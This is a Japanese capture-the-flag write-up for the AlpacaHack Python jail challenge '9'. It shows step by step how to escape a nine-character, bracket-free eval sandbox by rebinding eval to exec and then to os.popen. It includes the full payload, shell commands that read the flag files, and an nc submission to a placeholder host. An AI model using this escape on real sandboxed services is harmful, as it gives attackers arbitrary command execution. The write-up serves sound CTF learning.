

# 9️⃣



## 概要

Daily AlpacaHack B-SIDE 2026/03/01 - 2026/03/04 の問題です.

https://alpacahack.com/daily-bside/challenges/9

```python
for _ in range(9):
    code = input("jail> ")[:9]
    if "(" in code or ")" in code or "[" in code or "]" in code:
        break
    print(eval(code))
```

9 回 9 文字まで `eval` することが可能です.

ただし,文字中に `(` , `)` , `[` , `]` があってはいけません.

## 解法

まず, `eval` だと辛いので `eval` を `exec` に変えることを目指します.

具体的にはセイウチ演算子 `:=` と `{}` を使用することによって `eval` に `exec` を代入することが可能です.

```txt
jail> {x:=exec}
{<built-in function exec>}
jail> {eval:=x}
{<built-in function exec>}
```

これによって `import` や普通の代入などが可能になります.

結局 `(` や `)` を使用することが出来ないのでコードの中での関数呼び出しは難しいです.

そこで `eval` に呼び出したい関数を入れることで関数呼び出しを実現します.

文字数制限を考えドキュメントとにらめっこした結果 `os.popen` が使用できるのではないかと考えました.

具体的には以下のようにすることで入力した文字が `os.popen` に渡されるようになります.

```txt
jail> import os
None
jail> o=os
None
jail> p=o.popen
None
jail> eval=p
None
```

しかしながら,ただコマンドを入力しただけでは以下のように何も表示されません.

```txt
jail> cat /f*
<os._wrap_close object at 0x7f420110f0e0>
jail>
```

というのも `os.popen` はデフォルトで `mode='r'` の `stdout` に繋がれたファイルオブジェクトを生成するため `stdout` の内容は送られてきません.[^1]
[^1]: https://docs.python.org/3/library/os.html#os.popen

そこで, `stdin` にリダイレクトすることでファイル内容を得ることを考えます.[^2]
[^2]: `stderr` にリダイレクトしても `socat` が送ってくれないので `stdin` にせざるおえません.

お好みで 9 文字に収めるか,シェルを起動してその中でコマンドを打つことによってフラグを取得することが出来ます.

```txt
jail> cat /*>&0
<os._wrap_close object at 0x7f4201290910>
jail> Alpaca{REDACTED}
```

```txt
jail> sh
<os._wrap_close object at 0x7f7c996370e0>
jail> cat /flag* >&0
Alpaca{REDACTED}
```

これらを組み合わせて最終的なペイロードは以下の通りです.

```txt
{x:=exec}
{eval:=x}
import os
o=os
p=o.popen
eval=p
cat /*>&0
```

これを `cat solve | nc XXX.XXX.XXX.XXX XXXXX` のように送ることでフラグを取得することが出来ます.

```
Alpaca{jailify_the_world}
```
